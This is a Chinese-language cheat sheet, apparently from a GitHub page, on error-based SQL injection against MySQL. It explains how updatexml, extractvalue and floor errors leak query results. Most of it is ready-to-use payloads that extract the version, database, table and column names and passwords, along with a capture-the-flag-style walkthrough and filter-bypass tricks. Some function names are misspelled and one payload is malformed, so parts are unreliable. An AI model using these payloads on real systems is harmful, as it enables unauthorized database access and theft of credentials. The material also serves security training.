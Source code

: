 利用报错回显敏感的sql注入
常利用函数：updatexml、floor、exp、extractvalue、join
* floor
* exp
* extractvalue
* updatexml
* name_const
* join
* geometrycollecion
* polygon
* multipoint
* multinestring
* multpolygon
* linesring



## **updatexml**
原理：
updatexml（）一共有三个参数，第一个是xml内容、第二个参数是update的位置XPATH路径、第三个参数是更新后的内容；这里报错的主要原理是利用第二个参数，当其校验输入的内容是否符合XPATH路径格式的时候，不符合就报错，一般书写在路径位置为特殊符号0x7e，即可使得出现报错。同时第二个参数加入version（）或者database（）等等，因为不满足XPATH格式所以会输出错误，输出错误的时候将sql代码顺便（verson()，database()等）执行了。
```
payload:
//查询当前MySQL版本
'and updatexml(1,concat(0x7e,(select @@version)),1) or '1'='1
'or updatexml(1,concat(0x7e,(select @@version),0x7e),1) or '
//查询当前数据库名
'and updatexml(1,concat(0x7e,(select database())),1) or '1'='1
'and updatexml(1,concat(0x7e,(select database(),0x7e),1) or '1'='1
//查询表名（当前数据库下的）
'and updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x7e),1) or '1'='1
//查询字段名(users表中的)
'and updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_name='users'),0x7e),1) or '1'='1
'and updatexml(1,concat(0x7e,(SELECT GROUP_CONCAT(column_name) FROM information_schema.columns WHERE table_name = 'adopt_admin' ),1),1) or '1'='1

基于insert/update下的报错
'or updatexml(1,concat(0x7e,(select @@version),0x7e),1) or '
基于delete下的报错
'or updatexml(1,concat(0x7e,(select @@version),0x7e),1)
```

## **extractvalue**
原理：与updatexml类似，第二个参数路径错误。
```
'and extractvalue(1,concat(0x7e,(select @@version))) #


过滤空格用括号()，过滤=用like

?username=admin&password=admin'^extractvalue(1,concat(0x5c,(select(database()))))%23
查出库名geek

?username=admin&password=admin'^extractvalue(1,concat(0x5c,(select(group_concat(table_name))from(information_schema.tables)where(table_schema)like('geek'))))%23
查出表名：H4rDsq1



?username=admin&password=admin'^extractvalue(1,concat(0x5c,(select(group_concat(column_name))from(information_schema.columns)where(table_name)like('H4rDsq1'))))%23
查出有password字段



?username=admin&password=admin%27^extractvalue(1,concat(0x7e,(select(left(password,30))from(geek.H4rDsq1))))%23

extractvalue函数只能30字符，先做，后右。

?username=admin&password=admin%27^extractvalue(1,concat(0x7e,(select(right(password,30))from(geek.H4rDsq1))))%23
```

## **floor**
```
and (select count(*) floor(rand(14)*2) as a from users group by a);

select * from test where id=1 and (select 1 from (select count(*), concat(user(),floor(rand(0)*2)) as x from information_schema.tables group by x)a) 
```
原理：
group进行分组，count进行统计，rand进行创建随机数并且是第十四次，然后乘以2，用floor进行向下取整，然后得到1010，进行分组排序的时候，系统会先生成一个虚拟表，然后是主键和值，通过查询floor(rand(14)\*2)得到结果是1，然后发现自己得虚拟表中没有，插入虚拟表中得主键，然后在插入得时候，表达式会再次执行一遍，实际插入到里面得是零，然后第二次，插入是1，发现表中没有，在插入得时候再次运行，实习插入主键得是0，**两个主键0**，因此报错。

必要条件：
数据库得数据必须得大于2才能执行



^
## **报错注入绕过**
```
' and ST_Pointfromgeohash(current_user())--+
' || ST_Pointfromgeohash()--+
' || ST_Pointfromgeohash()#


order by GTID_SUBSET((version(),1)))
```